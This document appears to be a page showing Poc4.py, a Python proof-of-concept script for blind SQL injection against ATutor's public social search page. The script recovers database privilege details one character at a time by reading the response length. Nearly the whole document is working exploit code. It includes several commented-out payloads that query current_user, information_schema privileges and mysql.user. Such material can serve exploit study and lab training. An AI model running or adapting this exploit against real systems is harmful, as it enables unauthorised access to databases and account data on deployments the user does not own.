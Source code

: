 Poc4.py

```
import requests
import sys

def searchFriends_sqli(ip, inj_str):
    for j in range(32, 126):
        # now we update the sqli
        target = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str.replace("[CHAR]", str(j)))
        #print(target)
        r = requests.get(target)
        content_length = int(r.headers['Content-Length'])
        #print (content_length)
        if (content_length > 20):
            return j
    return None    

def main():
    if len(sys.argv) != 2:
        print("(+) usage: %s <target>"  % sys.argv[0])
        print('(+) eg: %s 192.168.121.103'  % sys.argv[0])
        sys.exit(-1)

    ip = sys.argv[1]

    print("(+) Retrieving privilege type....")

    # 19 is length of the version() string. This can
    # be dynamically stolen from the database as well!
    for i in range(1, 20):
        #injection_string = "test')/**/or/**/(ascii(substring((select/**/current_user()),%d,1)))=[CHAR]%%23" % i
        #injection_string = "test')/**/or/**/(ascii(substring((select/**/*/**/from/**/information_schema.user_privileges/**/where/**/grantee/**/like/**/'root'),%d,1)))=[CHAR]%%23" % i
        #injection_string = "test')/**/or/**/(ascii(substring((select/**/super_priv/**/from/**/mysql.user/**/where/**/user/**/=/**/'root'),%d,1)))=[CHAR]%%23" % i
        #injection_string = "test'/**/or/**/(ascii(substring((select/**/privilege_type/**/from/**/information_schema.user_privileges/**/where/**/grantee=\"'root'@'localhost'\"/**/and/**/privilege_type='super'),1,1)))=[CHAR]/**/or/**/1='" % i
        injection_string = "test'/**/or/**/(ascii(substring((select/**/privilege_type/**/from/**/information_schema.user_privileges/**/where/**/grantee=\"'root'@'localhost'\"/**/and/**/privilege_type='super'),%d,1)))=[CHAR]/**/or/**/1='" % i
        #print (injection_string)
        extracted_char = chr(searchFriends_sqli(ip, injection_string))
        sys.stdout.write(extracted_char)
        sys.stdout.flush()
    print("\n(+) done!")

if __name__ == "__main__":
    main()



```
atutor_gethash.py
